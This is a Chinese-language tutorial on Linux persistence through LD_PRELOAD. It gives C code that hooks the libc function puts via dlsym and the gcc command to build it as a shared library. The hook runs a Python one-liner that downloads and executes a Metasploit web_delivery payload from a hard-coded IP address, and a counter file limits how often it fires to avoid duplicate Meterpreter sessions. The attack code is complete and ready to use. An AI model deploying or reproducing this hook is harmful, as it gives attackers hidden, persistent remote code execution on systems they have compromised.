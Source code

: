 # Linux权限维持之LD_PRELOAD

## LD_PRELOAD 

Linux操作系统的动态链接库在加载过程中，动态链接器会先读取LD_PRELOAD环境变量和默认配置文件`/etc/ld.so.preload`，并将读取到的动态链接库文件进行预加载，即使程序不依赖这些动态链接库，LD\_PRELOAD环境变量和`/etc/ld.so.preload`配置文件中指定的动态链接库依然会被装载,因为它们的优先级比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，所以能够提前于用户调用的动态库载入。

通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。

## dlsym

**dlsym是一个计算机函数，功能是根据动态链接库操作句柄与符号，返回符号对应的地址，不但可以获取函数地址，也可以获取变量地址。**

dlsym定义在Linux操作系统中的dlfcn.h中，函数原型如下：


> void * dlsym(void * handle,const char * symbol)

* handle：由dlopen打开动态链接库后返回的指针；
* symbol：要求获取的函数或全局变量的名称。

返回值：void * 指向函数的地址，供调用使用。

劫持示例代码：

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
// do some thing …
// 这里是puts调用之前
  result = new_puts(message);
  // 这里是puts调用之后
  return result;
}
```

编译命令：

`gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE`

* -fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
* -shared 生成共享库格式
* -ldl 显示方式加载动态库，可能会调用dlopen、dlsym、dlclose、dlerror
* -D_GNU_SOURCE 以GNU规范标准编译

编写好劫持puts函数的代码后，需要先生成一个Metasploit木马，使得在系统调用puts函数之前，都执行一次木马。

![1.png](/img/20191225173831974025875.png)

`exploit/multi/script/web_delivery` 模块能够直接生成一条Python命令，这能够非常方便的获得Meterpreter。
接下来，将劫持puts函数的代码做一些小改动，在执行puts之前，调用系统函数system来运行python命令，这样每次调用puts都可以获得Meterpreter会话。

![2.png](/img/20191225173836655037349.png)

正常执行的过程：


![3.png](/img/20191225173857718966737.png)

执行whoami后，由于底层会调用puts函数，因此也会执行python命令，Metasploit不出意外的获得了Meterpreter：

![4.png](/img/20191225173900551211965.png)

接着，为了防止在短时间内获得多个重复的会话，因此需要优化一下代码，例如以某个文件行数和调用puts函数的次数进行取余，就能够达到执行多少次puts函数获得一次Meterpreter。
优化代码如下：

```c

#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <sys/stat.h>
#define BUFFER_SIZE 100
#define COMMAND_NUM 5
int check_file_line(char * filename){
	int file_line = 0;
	char buffer[BUFFER_SIZE];
	FILE *fp = NULL;
	fp = fopen(filename,"r");
	if(fp==NULL){
		return file_line;
	}

	while(fgets(buffer,BUFFER_SIZE,fp)!= NULL){
		file_line ++;
	}
	fclose(fp);
	return file_line;
}

void add_file_line(char * filename){
	FILE * fp = NULL;
	fp = fopen(filename,"a+");
	if(fp == NULL){
		return;
	}
	
	fputs("1\n",fp);
	fclose(fp);
}

void call_system(){

  system("python -c \"import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.170.138:8080/o1ZJy3Wue');exec(r.read());\"");

}

int puts(const char *message) {
  char * filename = "/tmp/err.log";
  int (*new_puts)(const char *message);
  int result;
  int file_lines = 0;
  new_puts = dlsym(RTLD_NEXT, "puts");
  add_file_line(filename);
  file_lines = check_file_line(filename);
  printf("[+]file_line : %d, NUM = %d \n",file_lines, COMMAND_NUM);
  if(file_lines % COMMAND_NUM == 0){
  	call_system();
  }
  result = new_puts(message);
  return result;
}
```

![5.png](/img/20191225173903309679538.png)

在执行至第零次、五次时，成功返回了会话：

![6.png](/img/20191225173905833945054.png)


COMMAND_NUM 可自定义